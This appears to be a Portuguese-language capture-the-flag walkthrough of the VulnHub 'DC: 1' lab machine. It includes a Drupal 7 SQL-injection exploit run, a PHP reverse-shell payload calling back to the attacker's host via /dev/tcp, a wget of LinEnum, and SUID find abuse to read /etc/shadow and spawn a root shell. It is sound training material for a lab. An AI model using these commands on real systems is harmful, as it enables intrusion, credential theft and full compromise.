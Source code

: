 # DC: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração

O primeiro passo foi encontrar o IP da VM:
```
# netdiscover -i vboxnet0 
```
![netdiscover](img/netdiscover.png)

Tendo o IP em mãos, podemos fazer um portscan simples para identificar os serviços que estão rodando
```
# nmap -sV -sT -p- 192.168.56.101
```
![nmap](img/nmap.png)  
Segundo o scan, temos um http na porta 80, ssh na porta 22 e um rpc na porta 111. Iniciando pela porta 80, vemos a página principal do drupal, um CMS escrito em PHP. Se olharmos o arquivo robots.txt, encontramos vários diretórios e arquivos que ele desabilita para robôs de busca, um desses arquivos é o UPGRADE.txt que mostra que a versão do drupal é a 7. Essa versão tem uma [falha de SQL injection](https://www.exploit-db.com/exploits/34992) que permite adicionar um administrador.
![drupal](img/drupal.png)  

## Exploração

Fazendo download desse exploit executando para explorar, conseguimos ver que realmente era vulnerável.
```
$ python2 34992.py -t http://192.168.56.101 -u rootpwned -p rootpwned
```
![xpl](img/xpl.png)  
Com o user adicionado, podemos fazer login e tentar conseguir acesso a uma shell, logo na primeira página temos um link dizendo "Add new content", e depois "Basic page", a primeira vista só é possível adicionar conteúdo HTML, mas se formos em Configuration > Text Formats > Add new format > PHP evaluator. Depois disso se voltarmos em Basic Page, vemos que existe uma opção para adicionar trechos PHP, então basta adicionar o seguinte trecho:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/1234 0>&1'");
```
E no terminal, colocar a porta 1234 em modo listening:
```
$ nc -vvnlp 1234
```
OBS.: mudar o IP

Aqui vemos a flag1
```
$ cat flag1.txt
```
E se entrarmos em /home/flag4 vemos a flag4
```
$ cat flag4.txt
```
Depois de pegar essas duas flags, executei o LinEnum para automatizar o processo de escalação de privilégios

## PrivEsc

```
$ wget http://192.168.56.1/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```
![LinEnum](img/linenum.png)  
Temos vários arquivos SUID, entre eles o find que tem o parâmetro -exec para executar comandos do linux, como ele é executado como root, temos acesso a arquivos, como o shadow e a pasta pessoal do root:
```
$ find /etc -name shadow -exec cat {} \;
```
copiando o conteúdo do arquivo para sua máquina local, podemos tentar quebrar com o hashcat ou john:
```
hashcat -a 0 -m 1800 shadow /usr/share/wordlists/rockyou.txt 
```
 no meu caso, só consegui a senha do usuário flag4, mas como o find estava sendo executado como root, podemos ler a flag ou executar o bash como root:
```
$ find /root
```
Vemos que o nome do arquivo é thefinalflag.txt
```
$ find /root/thefinalflag.txt -exec cat {} \;
```
Dessa forma é possível ler a flag, mas se quisermos um shell como root, podemos fazer:
```
$ find /root/thefinalflag.txt -exec sh \;
```